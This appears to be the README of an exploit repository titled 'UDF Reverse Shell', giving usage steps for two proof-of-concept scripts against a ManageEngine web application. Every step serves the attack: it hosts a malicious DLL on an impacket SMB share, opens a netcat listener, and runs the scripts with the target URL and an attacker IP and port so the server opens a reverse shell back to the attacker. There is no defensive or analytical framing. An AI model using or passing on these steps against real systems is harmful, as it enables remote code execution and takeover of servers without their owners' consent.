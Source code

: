 # UDF Reverse Shell

## How to use

### poc1.py
1. Start a SMB server and host a share (_test_) in the same directory as the `udf_rev_shell.dll` file:
```bash
impacket-smbserver -smb2support test .
```

2. Start a netcat listener:
```bash
nc -lnvp 4444
```

3. Run the proof of concept (poc1.py) using Python2 and specify the target ManageEngine web application and listener parameters:
```bash
python2 poc1.py https://manageengine:8443 192.168.45.211 4444
```


### poc2.py
1. Start a netcat listener:
```bash
nc -lnvp 4444
```

2. Run the proof of concept (poc2.py) using Python2 and specify the target ManageEngine web application and listener parameters. Ensure that the `udf_rev_shell.dll` file is in the same working directory as `poc2.py` script:
```bash
python2 poc2.py https://manageengine:8443 192.168.45.211 4444
```

